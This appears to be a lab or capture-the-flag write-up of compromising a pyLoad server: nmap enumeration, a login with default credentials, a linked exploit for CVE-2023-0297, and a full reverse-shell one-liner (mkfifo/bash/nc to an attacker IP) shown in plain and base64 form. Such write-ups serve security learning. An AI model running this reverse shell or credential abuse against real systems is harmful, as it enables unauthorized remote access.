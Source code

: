 ## First enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Fri Mar  1 12:46:33 2024 as: nmap -sC -sV -T4 -oN normal.txt -p 22,9666 -Pn 192.168.227.26
Nmap scan report for 192.168.227.26
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
9666/tcp open  http    CherryPy wsgiserver
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http://192.168.227.26:9666/
|_http-server-header: Cheroot/8.6.0
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  1 12:47:12 2024 -- 1 IP address (1 host up) scanned in 39.11 seconds

```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c949fe8b-9f09-414b-bed9-f5a7e3590965)

a web server running on port `9666`, opening it on a browser, we got to see it is running `pyload` service. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a0f22bcd-f8fa-408d-92fb-cb9e10eb6890)

a lil research on default creds, we got `pyload:pyload`. and we login success.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c9b280b5-3e3f-4509-b04a-f6cddb215cc3)

found an exploit on github, [exploit](https://github.com/JacobEbben/CVE-2023-0297). 

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.218 443 >/tmp/f

cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ1LjIxOCA0NDMgPi90bXAvZg==
```
encoded the reverse shell to base64. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/532394bf-8e29-4782-9528-09b0b2d83054)

run the reverse shell. and we got shell

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7a842a12-cf80-45a1-b295-728584f7c455)

and we are through 🙂
